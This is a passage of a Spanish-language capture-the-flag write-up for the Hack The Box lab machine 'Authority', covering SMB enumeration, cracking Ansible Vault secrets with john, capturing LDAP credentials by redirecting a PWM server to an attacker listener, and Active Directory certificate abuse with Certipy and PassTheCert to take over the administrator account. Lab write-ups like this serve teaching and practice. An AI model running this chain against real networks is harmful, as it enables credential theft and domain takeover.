SF-Port8443-TCP:V=7.94SVN%T=SSL%I=7%D=3/7%Time=65EA3BEE%P=x86_64-pc-linux-
SF:gnu%r(GetRequest,DB,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html
SF:;charset=ISO-8859-1\r\nContent-Length:\x2082\r\nDate:\x20Fri,\x2008\x20
SF:Mar\x202024\x2002:12:59\x20GMT\r\nConnection:\x20close\r\n\r\n\n\n\n\n\
SF:n<html><head><meta\x20http-equiv=\"refresh\"\x20content=\"0;URL='/pwm'\
SF:"/></head></html>")%r(HTTPOptions,7D,"HTTP/1\.1\x20200\x20\r\nAllow:\x2
SF:0GET,\x20HEAD,\x20POST,\x20OPTIONS\r\nContent-Length:\x200\r\nDate:\x20
SF:Fri,\x2008\x20Mar\x202024\x2002:12:59\x20GMT\r\nConnection:\x20close\r\
SF:n\r\n")%r(FourOhFourRequest,DB,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x
SF:20text/html;charset=ISO-8859-1\r\nContent-Length:\x2082\r\nDate:\x20Fri
SF:,\x2008\x20Mar\x202024\x2002:13:00\x20GMT\r\nConnection:\x20close\r\n\r
SF:\n\n\n\n\n\n<html><head><meta\x20http-equiv=\"refresh\"\x20content=\"0;
SF:URL='/pwm'\"/></head></html>")%r(RTSPRequest,82C,"HTTP/1\.1\x20400\x20\
SF:r\nContent-Type:\x20text/html;charset=utf-8\r\nContent-Language:\x20en\
SF:r\nContent-Length:\x201936\r\nDate:\x20Fri,\x2008\x20Mar\x202024\x2002:
SF:13:07\x20GMT\r\nConnection:\x20close\r\n\r\n<!doctype\x20html><html\x20
SF:lang=\"en\"><head><title>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x
SF:20Request</title><style\x20type=\"text/css\">body\x20{font-family:Tahom
SF:a,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,\x20b\x20{color:white;backgrou
SF:nd-color:#525D76;}\x20h1\x20{font-size:22px;}\x20h2\x20{font-size:16px;
SF:}\x20h3\x20{font-size:14px;}\x20p\x20{font-size:12px;}\x20a\x20{color:b
SF:lack;}\x20\.line\x20{height:1px;background-color:#525D76;border:none;}<
SF:/style></head><body><h1>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x2
SF:0Request</h1><hr\x20class=\"line\"\x20/><p><b>Type</b>\x20Exception\x20
SF:Report</p><p><b>Message</b>\x20Invalid\x20character\x20found\x20in\x20t
SF:he\x20HTTP\x20protocol\x20\[RTSP&#47;1\.00x0d0x0a0x0d0x0a\.\.\.\]</p><p
SF:><b>Description</b>\x20The\x20server\x20cannot\x20or\x20will\x20not\x20
SF:process\x20the\x20request\x20due\x20to\x20something\x20that\x20is\x20pe
SF:rceived\x20to\x20be\x20a\x20client\x20error\x20\(e\.g\.,\x20malformed\x
SF:20request\x20syntax,\x20invalid\x20");
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3h59m56s, deviation: 0s, median: 3h59m56s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64473/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 50158/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 45856/udp): CLEAN (Timeout)
|   Check 4 (port 32718/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-03-08T02:13:54
|_  start_date: N/A

```

- `-p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8443,9389,47001,49664,49665,49666,49667,49671,49674,49675,49676,49677,49684,49687,49764,59391`: Este parámetro especifica los puertos TCP que se van a escanear. Estos puertos incluyen el puerto 53 (DNS), 80 (HTTP), 88 (Kerberos), 135 (RPC), 139 (NetBIOS), 389 (LDAP), 445 (SMB), 464 (Kerberos), 593 (HTTP RPC), 636 (LDAP SSL), 3268 (LDAP Global Catalog), 3269 (LDAP Global Catalog SSL), 5985 (WinRM), 8443 (HTTPS alternativo), 9389 (Microsoft AD CS RPC), y una serie de puertos de alta gama y efímeros utilizados por Windows.
    
- `-sC`: Este parámetro activa la opción `default script scan`, lo que hace que `nmap` ejecute un conjunto de scripts predeterminados contra los puertos abiertos para obtener información adicional sobre los servicios que se están ejecutando.
    
- `-sV`: Este parámetro activa la detección de versiones, lo que permite a `nmap` determinar las versiones de los servicios que se están ejecutando en los puertos abiertos.
    
- `-Pn`: Este parámetro indica a `nmap` que no realice la detección de hosts en vivo antes de iniciar el escaneo de puertos. Esto puede ser útil si sabes que el host objetivo está activo y no quieres perder tiempo en la detección de hosts.
    
- `-n`: Este parámetro indica a `nmap` que no realice la resolución de DNS durante el escaneo, lo que acelera el proceso al evitar la búsqueda de nombres de host.
    
- `-vvv`: Este parámetro incrementa el nivel de verbosidad del escaneo, mostrando una salida muy detallada que incluye información adicional sobre el progreso del escaneo y los resultados obtenidos.
    
- `10.10.11.222`: Esta es la dirección IP del host que se va a escanear.
    
- `-oN servicesScan`: Este parámetro indica a `nmap` que guarde los resultados del escaneo en un archivo de formato normal, con nombre "servicesScan".

## Enumeración de smb

Para seguir enumerando usaremos `smbmap` 

```python
❯ smbmap -H 10.10.11.222 -u 'guest'
```

- `smbmap`: Este es el nombre del programa que estás ejecutando. Se utiliza para mapear recursos compartidos en servidores SMB.
    
- `-H 10.10.11.222`: Este parámetro especifica la dirección IP del servidor al que deseas conectarte. En este caso, parece que estás intentando conectarte a un servidor que tiene la dirección IP 10.10.11.222.
    
- `-u 'guest'`: Este parámetro especifica el nombre de usuario que utilizarás para la autenticación en el servidor SMB. Es importante destacar que 'guest' es un usuario comúnmente utilizado para acceder a recursos compartidos sin necesidad de proporcionar credenciales de usuario específicas. Este usuario a menudo tiene acceso limitado y se utiliza para permitir el acceso público a ciertos recursos compartidos.


Podemos observar que el directorio `Development` es un directorio al que podemos acceder. Para acceder podemos usar `smbclient`

```python
❯ smbclient \\\\10.10.11.222\\Development
```


Para descargar el contenido podemos hacer lo siguiente:

```python
❯ smbclient \\\\10.10.11.222\\Development -c "recurse; lcd Development; prompt; mget *"
```

En los archivos que tenemos podemos encontrar ciertas contraseñas que pueda que nos sirva.

```python
❯ grep -r "password" .
.
.
.
./Automation/Ansible/PWM/README.md:- pwm_admin_password: pwm admin password, 'password' by default.
./Automation/Ansible/PWM/templates/tomcat-users.xml.j2:<user username="admin" password="T0mc@tAdm1n" roles="manager-gui"/>  
./Automation/Ansible/PWM/templates/tomcat-users.xml.j2:<user username="robot" password="T0mc@tR00t" roles="manager-script"/>
.
.
.
```

En los archivos que descargamos podemos encontrar que `Automation/Ansible/PWM/ansible_inventory/ansible_invetory` en donde encontraremos algunas credenciales

```python
ansible_user: administrator
ansible_password: Welcome1
ansible_port: 5985
ansible_connection: winrm
ansible_winrm_transport: ntlm
ansible_winrm_server_cert_validation: ignore
```

Según que vamos viendo cada uno de los archivos de lo que descargamos podremos ver ciertas credenciales

```python
./Automation/Ansible/PWM/defaults/main.yml
```


# Explotación 

Investigando podremos encontrarnos con el siguiente post, que basicamente nos dice que son credenciales encriptadas y que las podemos desencriptar.

- [https://exploit-notes.hdks.org/exploit/cryptography/algorithm/ansible-vault-secret/](https://exploit-notes.hdks.org/exploit/cryptography/algorithm/ansible-vault-secret/)

Para obtener la contraseña usaremos `ansible2john` para obtener el hash y para crackearla usaremos `john`
## pwm_admin_login

```python
pwm_admin_login: !vault |
		$ANSIBLE_VAULT;1.1;AES256
32666534386435366537653136663731633138616264323230383566333966346662313161326239		6134353663663462373265633832356663356239383039640a346431373431666433343434366139
35653634376333666234613466396534343030656165396464323564373334616262613439343033		6334326263326364380a653034313733326639323433626130343834663538326439636232306531
3438
```

### ansible2john

```python
❯ ansible2john ansible_01.txt > ansible_01.hash
```

### Crack - john

```python
❯ john --wordlist=/usr/share/wordlists/rockyou.txt ansible_01.hash
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 256/256 AVX2 8x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (ansible_01.txt)     
1g 0:00:00:11 DONE (2024-03-08 09:58) 0.08481g/s 3376p/s 3376c/s 3376C/s 051790..victor2
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

## pwm_admin_password

```python
pwm_admin_password: !vault |
		$ANSIBLE_VAULT;1.1;AES256
	31356338343963323063373435363261323563393235633365356134616261666433393263373736
	3335616263326464633832376261306131303337653964350a363663623132353136346631396662
	38656432323830393339336231373637303535613636646561653637386634613862316638353530
	3930356637306461350a316466663037303037653761323565343338653934646533663365363035
	6531
```

### ansible2john

```python
❯ ansible2john ansible_02.txt > ansible_02.hash
```

### Crack - john

```python
❯ john --wordlist=/usr/share/wordlists/rockyou.txt ansible_02.hash
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 256/256 AVX2 8x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (ansible_02.txt)     
1g 0:00:00:12 DONE (2024-03-08 10:48) 0.08196g/s 3262p/s 3262c/s 3262C/s 051790..victor2
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

## ldap_admin_password

```python
ldap_admin_password: !vault |
		$ANSIBLE_VAULT;1.1;AES256
	63303831303534303266356462373731393561313363313038376166336536666232626461653630
	3437333035366235613437373733316635313530326639330a643034623530623439616136363563
	34646237336164356438383034623462323531316333623135383134656263663266653938333334
	3238343230333633350a646664396565633037333431626163306531336336326665316430613566
	3764
```

### ansible2john

```python
❯ ansible2john ansible_03.txt > ansible_03.hash
```

### Crack - john

```python
❯ john --wordlist=/usr/share/wordlists/rockyou.txt ansible_03.hash
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 256/256 AVX2 8x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (ansible_03.txt)     
1g 0:00:00:10 DONE (2024-03-08 10:51) 0.09416g/s 3748p/s 3748c/s 3748C/s 051790..victor2
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

## Puerto 8443 -  pwm

Mirando el proyecto que encontramos en los archivos que logramos a descargar nos encontraremos con el proyecto [pwm - project](https://github.com/pwm-project/pwm?tab=readme-ov-file)


Para desencriptar las credenciales `ansible vault` haremos uso de [ansible-vault-decrypt](https://github.com/gquere/ansible-vault-decrypt)

```python
❯ python3 ansible_vault_decrypt.py -f /home/b0ysie7e/seven/hackthebox/maquinas/Authority/content/ldap_admin_password.txt -p '!@#$%^&*'
DevT3st@123

❯ python3 ansible_vault_decrypt.py -f /home/b0ysie7e/seven/hackthebox/maquinas/Authority/content/pwm_admin_login.txt -p '!@#$%^&*'
svc_pwm

❯ python3 ansible_vault_decrypt.py -f /home/b0ysie7e/seven/hackthebox/maquinas/Authority/content/pwm_admin_password.txt -p '!@#$%^&*'
pWm_@dm!N_!23

```


Ejecutando con cada uno de las credenciales encontradas obtendremos tres contraseñas que podremos usar en el sitio web antes encontrado. En este sitio web encontraremos con dos apartados que son `manager` y `config Editor`

### manager


### Config -  Editor

Vamos a centrarnos en este apartado. Podemos ver que se tiene una opción `Connection` en donde podemos editar la `LDAP URLs`  


Lo que intentaremos será interceptar lo que se envía cuando quiere obtener o enviar los datos a la dirección de `ldap`, para lo que cambiaremos a nuestra dirección ip 


Luego nos pondremos a la escucha en el con cualquiera de los siguientes:
#### responder

```python
❯ sudo responder -I tun0
```


#### Wireshark

```python
tcp.port == 389
```


#### ncat

```python
❯ ncat -lnvp 389
```


```python
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�lDaP_1n_th3_cle4r!
```


Luego de obtener las credenciales validaremos con `netexec`, también se podría validar con `crackmapexec` y no habría ningún inconveniente.

```python
❯ netexec winrm 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```


# Escalada de privilegios

## Usuario : svc_ldap

Una vez validado las credenciales podemos hacer uso de `evil-winrm` para poder obtener una shell

```python
❯ evil-winrm -i 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```


Enumerando encontraremos que tiene un certificado vulnerable, esto haciendo uso de la herramienta de  `Certify.exe`

- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#abuse)

```python
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> .\Certify.exe find /vulnerable
```


Además encontraremos todo lo que tenemos permiso dentro del dominio


Ya que tenemos permisos para crear una nueva computadora, lo que haremos sera crearnos una con `impacket-addcomputer`

```python
❯ impacket-addcomputer -computer-name seven_pc -computer-pass seven  'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222
```


Luego usaremos `certify`, que en este caso viene en kali `certify-ad` pero esto nos da un error

- Certipy-ad



Dado que tenemos este error, lo que usaremos será `certify`, que lo descargaremos desde su repositorio 

- Certipy
	- [Repositorio - certify](https://github.com/ly4k/Certipy)

```python
❯ git clone https://github.com/ly4k/Certipy
❯ cd Certify
❯ python3 setup.py install --user
```

Si ejecutamos con los parámetros de lo anterior podremos ver que este si nos generar el `administrator.pfx`


El `certify` ya lo podemos eliminar de nuestra maquina atacante o dejarlo

```python
sudo apt remove certipy-ad
```

## PassTheCert

Luego de generar nuestro archivo `administrator.pfx` lo que haremos sera generar un `user.crt` y un `auser.key` para hacer uso de `passthecert.py`.

- [Repositorio y guía de como usarlo](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)

Generamos el `user.crt`

```python
❯ certipy cert -pfx administrator.pfx -nokey -out user.crt
```


Generamos el `user.key`

```python
❯ certipy cert -pfx administrator.pfx -nocert -out user.key
```


Una vez generadas lo que haremos será usarlas para hacer un `passthecert` y ejecutando comandos o cambiando la contraseña al usuario que nosotros le indicamos con el parámetro `-action modify_user -target administrator -new-pass`

```python
❯ python3 /home/b0ysie7e/seven/herramientas/activeDirectory/PassTheCert/Python/passthecert.py -crt user.crt -key user.key -dc-ip 10.10.11.222 -domain authority.htb -action modify_user -target administrator -new-pass
```


Haciendo uso de las credenciales y con `evil-winrm` podremos ingresar a la maquina como el usuario `administrator`.

```python
administrator : sjmMWGdcArQ92eTX9dBfgmR14Y6okrsX
```


- [https://reconshell.com/windows-red-team-cheat-sheet/](https://reconshell.com/windows-red-team-cheat-sheet/)
- [https://exploit-notes.hdks.org/](https://exploit-notes.hdks.org/)
- [https://www.ired.team/](https://www.ired.team/)
- [https://notes.shashwatshah.me/](https://notes.shashwatshah.me/)
